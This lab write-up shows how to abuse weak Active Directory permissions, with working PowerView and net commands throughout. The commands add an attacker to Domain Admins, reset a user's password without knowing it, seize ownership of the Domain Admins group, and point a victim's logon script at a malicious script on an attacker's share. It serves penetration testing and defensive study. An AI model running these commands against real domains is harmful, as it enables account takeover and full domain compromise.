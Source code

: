 # Abusing Active Directory ACLs/ACEs

## Context

This lab is to abuse weak permissions of Active Directory Discretionary Access Control Lists \(DACLs\) and Acccess Control Entries \(ACEs\) that make up DACLs.

Active Directory objects such as users and groups are securable objects and DACL/ACEs define who can read/modify those objects \(i.e change account name, reset password, etc\). 

An example of ACEs for the "Domain Admins" securable object can be seen here:

![](../../.gitbook/assets/screenshot-from-2018-11-08-20-21-25.png)

Some of the Active Directory object permissions and types that we as attackers are interested in:

* **GenericAll** - full rights to the object \(add users to a group or reset user's password\)
* **GenericWrite** - update object's attributes \(i.e logon script\)
* **WriteOwner** - change object owner to attacker controlled user take over the object
* **WriteDACL** - modify object's ACEs and give attacker full control right over the object
* **AllExtendedRights** - ability to add user to a group or reset password
* **ForceChangePassword** - ability to change user's password
* **Self \(Self-Membership\)** - ability to add yourself to a group

In this lab, we are going to explore and try to exploit most of the above ACEs.

## Execution

### GenericAll on User

Using powerview, let's check if our attacking user `spotless` has `GenericAll rights` on the AD object for the user `delegate`:

```csharp
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}  
```

We can see that indeed our user `spotless` has the `GenericAll` rights, effectively enabling the attacker to take over the account:

![](../../.gitbook/assets/screenshot-from-2018-11-07-20-19-43.png)

We can reset user's `delegate` password without knowing the current password:

![](../../.gitbook/assets/screenshot-from-2018-11-07-20-21-30.png)

### GenericAll on Group

Let's see if `Domain admins` group has any weak permissions. First of, let's get its `distinguishedName`:

```csharp
Get-NetGroup "domain admins" -FullData
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-09-50-20.png)

```csharp
 Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}
```

We can see that our attacking user `spotless` has `GenericAll` rights once again:

![](../../.gitbook/assets/screenshot-from-2018-11-08-09-52-10.png)

Effectively, this allows us to add ourselves \(the user `spotless`\) to the `Domain Admin` group:

```csharp
net group "domain admins" spotless /add /domain
```

![](../../.gitbook/assets/peek-2018-11-08-10-07.gif)

Same could be achieved with Active Directory or PowerSploit module:

```csharp
# with active directory module
Add-ADGroupMember -Identity "domain admins" -Members spotless

# with Powersploit
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

### WriteProperty on Group

If our controlled user has `WriteProperty` right on `All` objects for `Domain Admin` group:

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-11-11.png)

We can again add ourselves to the `Domain Admins` group and escalate privileges:

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-06-32.png)

### Self \(Self-Membership\) on Group

Another privilege that enables the attacker adding themselves to a group:

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-23-52.png)

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-25-23.png)

### WriteProperty \(Self-Membership\)

One more privilege that enables the attacker adding themselves to a group:

```csharp
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-15-21-35.png)

```csharp
net group "domain admins" spotless /add /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-15-22-50.png)

### **ForceChangePassword**

If we have `ExtendedRight` on `User-Force-Change-Password` object type, we can reset the user's password without knowing their current password:

```csharp
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-12-30-11.png)

Doing the same with powerview:

```csharp
Set-DomainUserPassword -Identity delegate -Verbose
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-12-31-52.png)

Another method that does not require fiddling with password-secure-string conversion:

```csharp
$c = Get-Credential
Set-DomainUserPassword -Identity delegate -AccountPassword $c.Password -Verbose
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-14-11-25.png)

...or a one liner if no interactive session is not available:

```csharp
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-12-58-25.png)

### WriteOwner on Group

Note how before the attack the owner of `Domain Admins` is `Domain Admins`:

![](../../.gitbook/assets/screenshot-from-2018-11-08-16-45-36.png)

After the ACE enumeration, if we find that a user in our control has `WriteOwner` rights on `ObjectType:All`

```csharp
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-16-45-42.png)

...we can change the `Domain Admins` object's owner to our user, which in our case is `spotless`. Note that the SID specified with `-Identity` is the SID of the `Domain Admins` group:

```csharp
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-16-54-59.png)

### GenericWrite on User

```csharp
Get-ObjectAcl -ResolveGUIDs -SamAccountName delegate | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-19-12-04.png)

`WriteProperty` on an `ObjectType`, which in this particular case is `Script-Path`, allows the attacker to overwrite the logon script path of the `delegate` user, which means that the next time, when the user `delegate` logs on, their system will execute our malicious script:

```csharp
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```

Below shows the user's ~~`delegate`~~ logon script field got updated in the AD:

![](../../.gitbook/assets/screenshot-from-2018-11-08-19-13-45.png)

## References

{% embed url="https://wald0.com/?p=112" %}

{% embed url="https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2" %}

{% embed url="https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/" %}

